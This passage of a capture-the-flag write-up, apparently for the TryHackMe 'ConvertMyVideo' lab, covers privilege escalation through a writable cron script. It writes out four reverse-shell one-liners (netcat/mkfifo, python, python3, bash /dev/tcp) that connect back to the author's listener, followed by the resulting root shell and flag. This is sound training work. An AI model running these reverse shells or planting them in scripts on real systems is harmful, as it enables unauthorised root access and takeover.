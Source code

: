 ### Checking the file permissions
```console
www-data@dmv:/var/www/html/tmp$ ls -la
total 12
drwxr-xr-x 2 www-data www-data 4096 Apr 12  2020 .
drwxr-xr-x 6 www-data www-data 4096 Nov 25 10:17 ..
-rw-r--r-- 1 www-data www-data   17 Apr 12  2020 clean.sh
```
And it turned out we are the owner of the file and can change the file content.

### New contents of the clean.sh
```console
www-data@dmv:/var/www/html/tmp$ cat clean.sh 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.6.31.213 9001 >/tmp/f

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.31.213",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.31.213",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

bash -i >& /dev/tcp/10.6.31.213/9001 0>&1
```
### Listening on our local box
```console
local@local:~/Documents/tryhackme/convertmyvideo$ nc -nvlp 9001
Listening on 0.0.0.0 9001
```
Now, we wait for the cron to execute the file.
If we check the netcat listner after a while, we can see that we get a connection back and a shell.
```console
local@local:~/Documents/tryhackme/convertmyvideo$ nc -nvlp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.26.87 51218
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Reading Root flag
```console
# cat /root/root.txt
flag{d9b368*************9c5e94a}
```